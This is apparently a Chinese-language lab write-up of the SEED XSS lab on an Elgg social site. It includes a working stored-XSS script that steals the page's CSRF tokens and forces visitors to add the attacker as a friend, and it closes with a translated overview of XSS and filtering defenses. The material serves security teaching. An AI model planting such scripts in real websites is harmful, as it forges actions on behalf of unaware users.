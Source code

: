[toc]

## 前言

**我在web这块，八窍已通七窍。**时间不是特别紧，我花了八天左右，去刷了一份JavaScript的视频才回头接着看这一章的内容。但web这里还有很多不知道，故不进行介绍。

XSS的内容见：[前端安全系列（一）：如何防止XSS攻击？](https://juejin.im/post/5bad9140e51d450e935c6d64)

我刷的JS视频：[JavaScript从入门到精通 -- Blue石川老师](https://www.bilibili.com/video/BV1LW411Q7qV)

刷视频过程中的代码/文档：[JavaScript -- github](https://github.com/da1234cao/programming-language-entry-record/tree/master/JavaScript)

该实验的代码文档源见：[代码文档仓库](https://github.com/da1234cao/computer_security)

<br>

## seed 实验

进行分析。

```js
使用alice账号，添加samy为好友，HTTP Header如下所示
Request URL:http://www.xsslabelgg.com/action/friends/add?friend=47
            &__elgg_ts=1594634598
            &__elgg_token=i_ODReeUsehhSb1JkBlUOQ
            &__elgg_ts=1594634598
            &__elgg_token=i_ODReeUsehhSb1JkBlUOQ
Host:www.xsslabelgg.com


查看该页面的html源码，找到嵌入在页面中的：elgg.security.token.__elgg_ts 和 elgg.security.token.__elgg_token
var elgg = 
{
    "config":{"lastcache":1549469404,"viewtype":"default","simplecache_enabled":1},
    "security":{"token":{"__elgg_ts":1594634598,"__elgg_token":"i_ODReeUsehhSb1JkBlUOQ"}},
    "session":{"user":{"guid":44,"type":"user","subtype":"","owner_guid":44,
               "container_guid":0,"site_guid":1,"time_created":"2017-07-26T20:29:47+00:00",
               "time_updated":"2017-07-26T20:29:48+00:00",
               "url":"http:\/\/www.xsslabelgg.com\/profile\/alice",
               "name":"Alice","username":"alice","language":"en","admin":false},
               "token":"VNxZb5d0hPy3F8atWS4KPJ"},
    "_data":{},
    "page_owner":{"guid":47,"type":"user","subtype":"","owner_guid":47,"container_guid":0,
                  "site_guid":1,"time_created":"2017-07-26T20:30:59+00:00",
                  "time_updated":"2020-07-13T09:39:32+00:00",
                  "url":"http:\/\/www.xsslabelgg.com\/profile\/samy",
                  "name":"Samy","username":"samy","language":"en"}
};


<a href="http://www.xsslabelgg.com/action/friends/add?friend=47&amp;
    __elgg_ts=1594691548&amp;__elgg_token=HcunH-Lm_a09OwBPn6rakA" 
    class="elgg-button elgg-button-action">Add friend</a>

function() {
  var $menu = $(this).closest('.elgg-menu');

  // Be optimistic about success
  elgg.ui.toggleMenuItems($menu, menuItemNameB, menuItemNameA);

  // Send the ajax request
  elgg.action($(this).attr('href'), {
    success: function(json) {
      if (json.system_messages.error.length) {
        // Something went wrong, so undo the optimistic changes
        elgg.ui.toggleMenuItems($menu, menuItemNameA, menuItemNameB);
      }
    },
    error: function() {
      // Something went wrong, so undo the optimistic changes
      elgg.ui.toggleMenuItems($menu, menuItemNameA, menuItemNameB);
    }
  });

  // Don't want to actually click the link
  return false;
}
```



执行XSS攻击。

```html
<!-- 嵌入js代码，在受害者不知情的情况下，添加朋友
分析过程见analysis.txt -->

<span>when you see my profile,you have been attacked by XSS. </span>

<script type="text/javascript">
window.onload = function(){
    // 提取参数 -- 参数在后面，所以用window.onload
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    // alert('ts='+ts);
    // alert('token='+token);

    // 构造url
    var sendUrl = "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;

    // 创建和发送Ajax请求
    var Ajax = new XMLHttpRequest();
    Ajax.open('GET',sendUrl,true);
    // Ajax.setRequestHeader("Host","www.xsslabelgg.com");

    Ajax.send();

    // 接受返回
    // Ajax.onreadystatechange = function(){ // 状态发生变化时，函数被回调
    //     if(Ajax.readyState == 4){ // 成功完成
    //         // 判断响应结果
    //         if(Ajax.status == 200){
    //             // alert('success');
    //             alert(Ajax.responseText);
    //         }else{
    //             alert('failure');
    //         }
    //     }
    // }
}


</script>
```

结果：通过嵌入的JS代码，在受害者不知情的情况下，添加好友。

![image-20200714182647730](XSS_Attack.assets/image-20200714182647730.png)

<br>

## 总结翻译

ROC + google翻译

![image-20200714180620582](XSS_Attack.assets/image-20200714180620582.png)
许多网络应用程序（例如社交网络）允许用户共享信息。因此，来自一个用户的数据可能会被其他用户查看。如果共享的只是数据，则没有风险很大；但是，**恶意用户可能会将JavaScript代码隐藏在其数据中**；**如果是网路应用程序不会过滤掉代码，代码可能会到达其他用户的浏览器并被执行。这是称为跨站脚本（XSS）**，这是一种特殊的代码注入攻击，它是针对Web应用程序的最常见攻击。 XSS的根本缺陷是JavaScript本质导致，代码可以与HTML数据混合。正如我们从其他攻击中学到的，作为缓冲区溢出，格式字符串和SQL注入攻击，可以**将数据与代码混合**
**非常危险**。如果Web应用程序无法将它们分开并过滤掉不受信任的代码，则它将最终可能会运行恶意代码。在XSS攻击中，一旦攻击者的代码进入受害者的浏览器，该代码便可以发送代表受害者向网络服务器伪造请求，例如删除受害者的朋友并更改受害者的个人资料。此外，恶意代码可以将自己的副本保存在受害者的帐户，感染了受害者的数据。当其他人查看受害者的受感染数据时，恶意代码可以进一步感染其他人，从本质上讲成为一种自我传播的蠕虫。为了克服XSS攻击，大多数应用程序使用过滤器从数据中删除JavaScript代码，由用户提供。编写这样的过滤器并不容易，因为有很多嵌入方法数据中的JavaScript代码。**最佳做法是使用经过广泛审查的过滤器，而不是通过个人的一些快速努力来创建一个。**